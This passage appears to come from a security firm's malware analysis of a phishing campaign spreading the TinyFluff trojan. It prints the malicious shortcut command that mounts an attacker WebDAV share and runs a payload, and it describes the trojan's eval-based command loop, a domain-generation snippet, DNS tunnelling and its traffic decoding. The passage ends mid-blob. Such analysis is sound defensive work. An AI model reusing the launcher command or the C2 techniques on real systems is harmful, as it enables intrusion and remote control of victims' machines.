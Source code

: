 Akt_sverki_Consultant.docx.lnk ;"%ComSpec%" /c net use hxxp://192.248.176[.]138 && start \\192.248.176[.]138\DavWWWRoot\Akt_sverki_Consultant.docx && start /b \\192.248.176[.]138\DavWWWRoot\tf.exe  Here is what happened: using WebDAV protocol the threat actors mapped the network drive hxxp://192.248.176[.]138, displayed the decoy document (DopSog_Consultant.docx or Akt_sverki_Consultant.docx), and launched the malicious executable file tf.exe. The decoy documents looked as follows:   Decoy document Akt_sverki_Consultant.docx (Translation: Reconciliation certificate) Decoy document DopSog_Consultant.docx (Translation: Supplementary Agreement) Obviously, the legitimate company Consultant Plus has nothing to do with documents used in the campaign.   The payload, as you may have guessed, is TinyFluff. Unlike the file used in the March 22 campaign, however, this version does not have a built-in script and does not download the Node.js interpreter from the official website. Instead, the application copies both the script and the interpreter from its own current location, i.e., from the network drive 192.248.176[.]138. The final-stage script is much simpler than the above version. It lacks both DGA (the IP address 46.101.113[.]161 is specified as C2) and data encryption. In fact, all communication between the Trojan and C2 could be viewed using an ordinary traffic sniffer.  Group-IB experts retrieved several JS commands that were executed on the infected device. They were all designed to obtain information about an infected device. They even included CMD commands (as described in the corresponding section).   Tools   TinyFluff  As mentioned above, Group-IB experts detected two versions of TinyFluff:  Campaign date;SHA12022-03-25;c82e12e563d5d5f4a8dd67703b5df7373b457abc
2022-03-22;bd0a6a3628f268a37ac9d708d03f57feef5ed55e   Let's begin with the tf.exe file (SHA1: c82e12e563d5d5f4a8dd67703b5df7373b457abc) as the tool is much simpler than its predecessor. Once launched, the application creates the directory %APPDATA%\%MachineGuid%, where %MachineGuid% is the registry value for HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\MachineGuid. If the directory already exists, the application terminates itself. The application copies the interpreter Node.js (node.exe) and the malicious script s.txt to the created directory. The script is heavily obfuscated, but if it can be run then there is no need to waste time on de-obfuscation because the obfuscated layer restarts Node.js and passes a "clean" script to it as an argument.   How Group-IB Managed XDR's module called Malware Detonation Platformlays the attack   As seen in the screenshot, the argument of the second node.exe process is a script without obfuscation. Its functionality is simple: it connects to the address 46.101.113[.]161:80, passes the format identifier /{0.[0-9]*/}, receives the command in a loop, and executes it (using the function eval). The commands are described in detail in the relevant section. Although the second version of TinyFluff (SHA1: bd0a6a3628f268a37ac9d708d03f57feef5ed55e) was discovered earlier (and the compilation date is more recent), it is more sophisticated. Just like the previous version, it places the script and the interpreter in the directory %APPDATA%\%MachineGuid%. However, the interpreter is downloaded from the official website: http://nodejs.org/dist/latest-erbium/win-x86/node.exe, and the malicious script is located in a resource of the executable file named TXT. As in the above case, the de-obfuscated script can be obtained from an argument of the node.exe child process:   Source: Group-IB Managed XDR   This time the script is more complicated. For example, it doesn't have a built-in C2 list. Instead, the script uses DGA:  
const a=[0…0x1e4]
const tld=[".com",".org",".net"],
domain=crypto.createHash("md5").update(a.toString()).digest("hex").slice(0,6)+tld[f]
    For each domain, the script generates a subdomain in the format [0-9a-f]{4}.[0-9a-f]{8}.%dga_domain%, creates a DNS query, and receives a TXT record. The tool carries out all communication through a DNS tunnel, which means that all the data transmitted by the Trojan is in a subdomain and the server's response is in a TXT record. We will not dwell on this any further as we believe that all interaction with the server occurs in this way.  The script verifies the digital signature of the received data using the function crypto.verify with the base64-encoded key MCowBQYDK2VwAyEAgp0p9o6lg/ZZ3WUJtx7UBBb1qYMZEDNC19Hbb84wt88= (in DER format). If the signature is valid, the script generates a bot identifier (a number from 0 to 1), after which it requests a command from the C2 server in a loop. The response is obfuscated. De-obfuscation is performed as follows:    Data is Base64-decoded.    Data is decrypted using the RC4 algorithm (in such requests, the key is %id%.%dga_domain%, which is the domain to which a connection was made).    The decrypted data is decompressed using the gzip algorithm.      The above described algorithm is used to de-obfuscate all traffic between the malware and the C2 server, with only the key changing (going forward we will therefore only say that the data is de-obfuscated using a given key). After de-obfuscation, a JS script is immediately executed by the interpreter. The textual description is complicated, so let's illustrate it using a sample analyzed by the Malware Detonation Platform. Registration looked as follows:     The example above shows that the domain eccbc8[.]com was generated using DGA and that 0.058106102444631436 is the bot's unique identifier. The screenshot shows two TXT responses, but at this stage we are only interested in the first one:  
Vl1Ok4WH0QkAA3xSgGwyotPYGd0Q4X4LeLYTqO0mgklgbunlqCBxhnEilFysI2UrJWKsy0Q+BgoB+ox0d+DQMiebnPGyNGy46rBObiTru7WghF8YqT81dBcmG+eC2DAORzNi8qZ/V5soMuKM/sq4NvsHKmAu+odfsRsvjxfqprak+vFgZHAMING6LPge8tHc2HRfIB6Mq1rVR0p+B87bNZEZa4K8mIP